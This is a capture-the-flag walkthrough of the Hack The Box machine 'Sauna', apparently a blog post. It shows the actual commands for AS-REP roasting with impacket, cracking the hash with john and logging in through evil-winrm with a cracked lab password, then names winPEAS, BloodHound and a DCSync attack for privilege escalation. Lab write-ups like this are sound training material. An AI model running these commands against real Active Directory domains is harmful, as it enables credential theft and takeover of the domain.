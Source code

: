 ```yaml
---
layout: post
title:  htb-sauna
category: walkthrough
date:   2020-07-28 05:00:00
---
```


# ![sauna](/assets/img/sauna/sauna.png)  
Sauna is a easy machine created by [egotisticalSW](https://www.hackthebox.eu/home/users/profile/94858)

# Enum  
  
###  nmap
  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-28 02:53 -03  
>Nmap scan report for 10.10.10.175  
>Host is up (0.21s latency).  
>Not shown: 5920 filtered ports  
>PORT     STATE SERVICE       VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP: 
>|     version  
>|_    bind  
>80/tcp   open  http          Microsoft IIS httpd 10.0  
>| http-methods: 
>|_  Potentially risky methods: TRACE  
>|_http-server-header: Microsoft-IIS/10.0  
>|_http-title: Egotistical Bank :: Home  
>88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-28 12:57:59Z)  
>135/tcp  open  msrpc         Microsoft Windows RPC  
>139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn  
>389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds?  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn\_http    Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
>|_http-server-header: Microsoft-HTTPAPI/2.0  
>|_http-title: Not Found  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=7/28%Time=5F1FBD97%P=x86\_64-pc-linux-gnu%r(DNSV  
>SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\  
>SF:x04bind\0\0\x10\0\x03");  
>Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows  
  3268
>Host script results:  
>|_clock-skew: mean: 7h03m31s, deviation: 0s, median: 7h03m31s  
>| smb2-security-mode: 
>|   2.02: 
>|_    Message signing enabled and required  
>| smb2-time: 
>|   date: 2020-07-28 10:00:17  
>|_  start_date: N/A  
  
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 308.65 seconds  
  
  
nmap output show me the domain egotistical-bank.local, this is the domain controller.  
nmap also show kerberos 88, IIS 80, ldap 389 and 3268, and 5985 using http, this port usually is WinRM.  
  
First thing I thought was [Kerberoasting](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)  
I used [impacket](https://github.com/ifconfig-me/impacket)'s GetADUser.py, but got nothing...  
  
In port 80 I got this page  
![index](/assets/img/sauna/sauna1.png)  
  
Searching something usefull I found usernames on page "About Us"  
![users](/assets/img/sauna/sauna2.png)  
  
I creted a wordlist with this names, and some possibilities...  
>f.smith  
>fsmith  
>h.bear  
>hbear  
>s.coins  
>scoins  
>btaylor  
>b.taylor  
>s.driver  
>sdriver  
  
My wordlist have a lot more, but there's no need of all...  
  
Now I can use impacket's GetNPUsers.py  
  
  
### Exploit
./GetNPUsers.py egotistical-bank.local/ -usersfile users.txt -request -no-pass -dc-ip 10.10.10.175 -format john  --outputfile hash  

![fsmithHash](/assets/img/sauna/sauna3.png)  

With the brute force of my friend john I cracked this hash  
  
john -w /usr/share/wordlists/rockyou.txt hash  
  
![passwd](/assets/img/sauna/sauna4.png)
  
The part I like most in attacking windows, is the  [evil](https://github.com/Hackplayers/evil-winrm) part
  
./evil-winrm.rb -i 10.10.10.175 -p Thestrokes23 -u fsmith  
  
![evilLogin](/assets/img/sauna/sauna5.png)  
  
### Priv Esc  
  
To privelige escalation in windows the first thing I use is [winPEAS.bat](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat)  
  
Uploaded winPEAS.bat with upload command of evil-winrm and executed it  
winPEAS spits a lot of informations about everything in the machine  
and found a pass for other user  
![svc](/assets/img/sauna/sauna6.png)  
  
Logged in as svc\_loanmgr with and invoked the [hound](https://github.com/fox-it/BloodHound.py)  
  
![bloodHound](/assets/img/sauna/sauna7.png)  
  
ziped the json files and sent it to bloodhound  
  
As the hound says, svc\_loanmgr is connected to egotistical-bank with getChangesAll and should try a DCSYnc atack..  
  
![HoundHelp](/assets/img/sauna/sauna8.png)  
  
Let's get back to impacket  
  
![hashdump](/assets/img/sauna/sauna9.png)  
  
And evil again  

![evilAdmin](/assets/img/sauan/sauna10.png)
